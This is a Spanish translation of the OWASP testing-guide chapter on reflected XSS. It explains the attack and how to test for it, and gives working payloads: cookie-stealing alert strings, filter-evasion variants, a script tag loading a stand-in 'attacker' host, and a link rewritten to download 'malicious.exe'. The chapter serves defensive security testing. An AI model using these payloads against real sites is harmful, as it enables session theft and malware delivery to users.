



# Scripting entre sitios reflejado

|ID          |
|------------|
|WSTG-INJT-01|

## Resumen

El [scripting entre sitios (XSS)](https://owasp.org/www-community/attacks/xss/) reflejado ocurre cuando un atacante inyecta código ejecutable en el navegador dentro de una única respuesta HTTP. El ataque inyectado no se almacena en la aplicación; es no persistente y solo afecta a los usuarios que abren un enlace maliciosamente diseñado o una página web de terceros. La cadena de ataque se incluye como parte del URI diseñado o de los parámetros HTTP, la aplicación la procesa incorrectamente y se la devuelve a la víctima.

El XSS reflejado es el tipo de ataque XSS más frecuente en la práctica. Los ataques XSS reflejados también se conocen como ataques XSS no persistentes y, dado que la carga útil del ataque se entrega y ejecuta mediante una única solicitud y respuesta, también se denominan XSS de primer orden o de tipo 1.

Cuando una aplicación web es vulnerable a este tipo de ataque, devuelve al cliente entradas no validadas enviadas mediante solicitudes. El modus operandi habitual del ataque incluye una fase de diseño, en la que el atacante crea y prueba un URI malicioso; una fase de ingeniería social, en la que convence a las víctimas para que carguen ese URI en sus navegadores; y, finalmente, la ejecución del código malicioso en el navegador de la víctima.

Por lo general, el código del atacante está escrito en JavaScript, pero también pueden utilizarse otros lenguajes de scripting, como ActionScript y VBScript. Los atacantes suelen aprovechar estas vulnerabilidades para instalar registradores de teclas, robar las cookies de las víctimas, robar datos del portapapeles y cambiar el contenido de la página (por ejemplo, los enlaces de descarga).

Una de las principales dificultades para prevenir las vulnerabilidades XSS es codificar correctamente los caracteres. En algunos casos, el servidor web o la aplicación web podrían no filtrar algunas codificaciones de caracteres. Por ejemplo, la aplicación web podría filtrar `<script>`, pero no `%3cscript%3e`, que simplemente emplea otra codificación de las etiquetas.

## Objetivos de la prueba

- Identificar las variables que se reflejan en las respuestas.
- Evaluar las entradas que aceptan y la codificación que se aplica al devolverlas (si se aplica alguna).

## Cómo probar

### Pruebas de caja negra

Una prueba de caja negra incluirá al menos tres fases:

#### Detectar vectores de entrada

Detectar los vectores de entrada. Para cada página web, el evaluador debe determinar todas las variables definidas por el usuario de la aplicación web y cómo introducirlas. Esto incluye entradas ocultas o no evidentes, como parámetros HTTP, datos POST, valores de campos ocultos de formularios y valores predefinidos de botones de opción o listas de selección. Por lo general, se utilizan editores HTML en el navegador o proxies web para ver estas variables ocultas. Consulte el ejemplo siguiente.

#### Analizar vectores de entrada

Analizar cada vector de entrada para detectar posibles vulnerabilidades. Para detectar una vulnerabilidad XSS, el evaluador suele utilizar datos de entrada especialmente diseñados con cada vector de entrada. Estos datos suelen ser inocuos, pero activan respuestas del navegador que manifiestan la vulnerabilidad. Los datos de prueba pueden generarse mediante un fuzzer de aplicaciones web, una lista automatizada y predefinida de cadenas de ataque conocidas o manualmente.
Algunos ejemplos de estos datos de entrada son los siguientes:

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Para obtener una lista exhaustiva de posibles cadenas de prueba, consulte la [Hoja de trucos para evadir filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Comprobar el impacto

Para cada entrada de prueba que se haya intentado en la fase anterior, el evaluador analizará el resultado y determinará si representa una vulnerabilidad con un impacto realista en la seguridad de la aplicación web. Esto requiere examinar el HTML de la página web resultante y buscar la entrada de prueba. Una vez encontrada, el evaluador identifica los caracteres especiales que no se codificaron, reemplazaron o filtraron correctamente. El conjunto de caracteres especiales vulnerables que no se filtraron dependerá del contexto de esa sección del HTML.

Lo ideal es que todos los caracteres especiales de HTML se reemplacen por entidades HTML. Las principales entidades HTML que deben identificarse son:

- `>` (mayor que)
- `<` (menor que)
- `&` (ampersand)
- `'` (apóstrofo o comilla simple)
- `"` (comilla doble)

Sin embargo, las especificaciones de HTML y XML definen una lista completa de entidades. [Wikipedia ofrece una referencia completa](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

En el contexto de una acción HTML o de código JavaScript, será necesario escapar, codificar, reemplazar o filtrar otro conjunto de caracteres especiales. Estos caracteres incluyen:

- `\n` (nueva línea)
- `\r` (retorno de carro)
- `'` (apóstrofo o comilla simple)
- `"` (comilla doble)
- `\` (barra invertida)
- `\uXXXX` (valores Unicode)

Para obtener una referencia más completa, consulte la [guía de JavaScript de Mozilla](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Grammar_and_types#Using_special_characters_in_strings).

#### Ejemplo 1

Por ejemplo, considere un sitio que muestra un mensaje de bienvenida `Welcome %username%` y un enlace de descarga.

\
*Figura 4.7.1-1: Ejemplo 1 de XSS*

El evaluador debe sospechar que cada punto de entrada de datos puede dar lugar a un ataque XSS. Para analizarlo, probará la variable de usuario e intentará activar la vulnerabilidad.

Probemos hacer clic en el siguiente enlace y veamos qué ocurre:

```text
https://example.com/index.php?user=<script>alert(123)</script>
```

Si no se aplica ninguna sanitización, aparecerá la siguiente ventana emergente:

\
*Figura 4.7.1-2: Ejemplo 1 de XSS*

Esto indica que existe una vulnerabilidad XSS y parece que el evaluador puede ejecutar el código que elija en el navegador de cualquier persona si la víctima hace clic en el enlace del evaluador.

#### Ejemplo 2

Probemos con otro fragmento de código (enlace):

```text
https://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "https://badexample.com/malicious.exe";}</script>
```

Esto produce el siguiente comportamiento:

\
*Figura 4.7.1-3: Ejemplo 2 de XSS*

Esto hará que el usuario que haga clic en el enlace proporcionado por el evaluador descargue el archivo `malicious.exe` desde un sitio que controla el atacante.

### Evadir filtros XSS

Los ataques de scripting entre sitios reflejado se previenen mediante la sanitización de las entradas por parte de la aplicación web, el bloqueo de entradas maliciosas por parte de un firewall de aplicaciones web o mecanismos integrados en los navegadores web modernos. El evaluador debe comprobar si existen vulnerabilidades suponiendo que los navegadores web no impedirán el ataque. Los navegadores pueden estar desactualizados o tener deshabilitadas sus funciones de seguridad integradas. Del mismo modo, no se puede garantizar que los firewalls de aplicaciones web reconozcan ataques novedosos y desconocidos. Un atacante podría diseñar una cadena de ataque que el firewall de aplicaciones web no reconociera.

Por lo tanto, la mayor parte de la prevención de XSS debe depender de la sanitización de las entradas no confiables de los usuarios por parte de la aplicación web. Los desarrolladores disponen de varios mecanismos de sanitización, como devolver un error, eliminar, codificar o reemplazar las entradas no válidas. La forma en que la aplicación detecta y corrige las entradas no válidas es otra de las principales debilidades para prevenir XSS. Es posible que una lista de denegación no incluya todas las cadenas de ataque posibles, que una lista de permitidos sea demasiado permisiva, que falle la sanitización o que se confíe incorrectamente en un tipo de entrada y esta quede sin sanitizar. Todo esto permite a los atacantes eludir los filtros XSS.

La [Hoja de trucos para evadir filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) documenta pruebas habituales para evadir filtros.

#### Ejemplo 3: Valor de atributo de etiqueta

Como estos filtros se basan en una lista de denegación, no pueden bloquear todos los tipos de expresiones. De hecho, hay casos en los que se puede llevar a cabo un ataque XSS sin utilizar etiquetas `<script>` e incluso sin utilizar caracteres como `<` y `>`, que suelen filtrarse.

Por ejemplo, la aplicación web podría utilizar el valor de entrada del usuario para rellenar un atributo, como se muestra en el siguiente código:

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```

Entonces, un atacante podría enviar el siguiente código:

```text
" onfocus="alert(document.cookie)
```

#### Ejemplo 4: Sintaxis o codificación diferente

En algunos casos, es posible que los filtros basados en firmas puedan evadirse simplemente ofuscando el ataque. Por lo general, esto puede hacerse insertando variaciones inesperadas en la sintaxis o la codificación. Los navegadores toleran estas variaciones como HTML válido cuando se devuelve el código, y el filtro también podría aceptarlas.

A continuación se muestran algunos ejemplos:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Ejemplo 5: Eludir el filtrado no recursivo

A veces, la sanitización se aplica una sola vez y no se realiza de forma recursiva. En ese caso, el atacante puede eludir el filtro enviando una cadena que contenga varios intentos, como esta:

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Ejemplo 6: Incluir un script externo

Supongamos ahora que los desarrolladores del sitio objetivo implementaron el siguiente código para proteger la entrada frente a la inclusión de scripts externos:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Desglosando la expresión regular anterior:

1. Comprobar si aparece `<script`
2. Comprobar si aparece un espacio en blanco `" "`
3. Comprobar si hay uno o más caracteres distintos de `>`
4. Comprobar si aparece `src`

Esto resulta útil para filtrar expresiones como `<script src="https://attacker/xss.js"></script>`, que son un vector de ataque habitual. Sin embargo, en este caso es posible eludir la sanitización utilizando el carácter `>` en un atributo situado entre `script` y `src`, como se muestra a continuación:

```text
https://example/?var=<SCRIPT%20a=">"%20SRC="https://attacker/xss.js"></SCRIPT>
```

Esto explotará la vulnerabilidad de scripting entre sitios reflejado mostrada anteriormente y ejecutará el código JavaScript almacenado en el servidor web del atacante como si se originara en el sitio de la víctima, `https://example/`.

#### Ejemplo 7: Contaminación de parámetros HTTP (HPP)

Otro método para eludir los filtros es la contaminación de parámetros HTTP. Esta técnica fue presentada por primera vez por Stefano di Paola y Luca Carettoni en 2009, en la conferencia OWASP Poland. Consulte [Contaminación de parámetros HTTP](04-HTTP_Parameter_Pollution.md) para obtener más información. Esta técnica de evasión consiste en dividir un vector de ataque entre varios parámetros con el mismo nombre. La manipulación del valor de cada parámetro depende de cómo cada tecnología web analiza estos parámetros, por lo que este tipo de evasión no siempre es posible. Si el entorno probado concatena los valores de todos los parámetros con el mismo nombre, un atacante podría utilizar esta técnica para eludir mecanismos de seguridad basados en patrones.

Ataque habitual:

```text
https://example/page.php?param=<script>[...]</script>
```

Ataque mediante HPP:

```text
https://example/page.php?param=<script&param=>[...]</&param=script>
```

Consulte la [Hoja de trucos para evadir filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) para ver una lista más detallada de técnicas para evadir filtros. Por último, analizar las respuestas puede ser complejo. Una forma sencilla de hacerlo es utilizar código que muestre un cuadro de diálogo, como en nuestro ejemplo. Esto suele indicar que un atacante podría ejecutar JavaScript arbitrario de su elección en los navegadores de los visitantes.

### Pruebas de caja gris

Las pruebas de caja gris son similares a las pruebas de caja negra. En las pruebas de caja gris, el evaluador de penetración tiene conocimiento parcial de la aplicación. En este caso, es posible que el evaluador de penetración conozca información sobre las entradas de usuario, los controles de validación de entradas y la forma en que se vuelve a mostrar al usuario la entrada que proporcionó.

Si se dispone del código fuente (pruebas de caja blanca), deben analizarse todas las variables recibidas de los usuarios. Además, el evaluador debe analizar los procedimientos de sanitización implementados para determinar si se pueden eludir.

## Herramientas

- [Hackvertor](https://hackvertor.co.uk/) es una herramienta en línea que permite realizar muchos tipos de codificación y ofuscación de JavaScript (o de cualquier cadena de entrada).
- [BeEF](https://beefproject.com) es un framework de explotación de navegadores. Es una herramienta profesional para demostrar el impacto en tiempo real de las vulnerabilidades de los navegadores.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) es una herramienta semiautomatizada y mayormente pasiva de auditoría de seguridad de aplicaciones web, optimizada para detectar de forma precisa y sensible, y anotar automáticamente, posibles problemas y patrones de diseño relevantes para la seguridad a partir de la observación del tráfico existente iniciado por los usuarios en entornos web 2.0 complejos.
- [Burp Proxy](https://portswigger.net/burp/) es un servidor proxy HTTP/S interactivo para atacar y probar aplicaciones web.
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) es un servidor proxy HTTP/S interactivo para atacar y probar aplicaciones web que incluye un escáner.

## Referencias

### Recursos de OWASP

- [Hoja de trucos para evadir filtros XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Libros

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Documentos técnicos

- [CERT - Etiquetas HTML maliciosas insertadas en solicitudes web del cliente](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - Preguntas frecuentes sobre scripting entre sitios](https://www.cgisecurity.com/xss-faq.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Comprender la amenaza de los navegadores web](https://www.researchgate.net/publication/230751208_Understanding_the_Web_browser_threat_Examination_of_vulnerable_online_Web_browser_populations_and_the_insecurity_iceberg)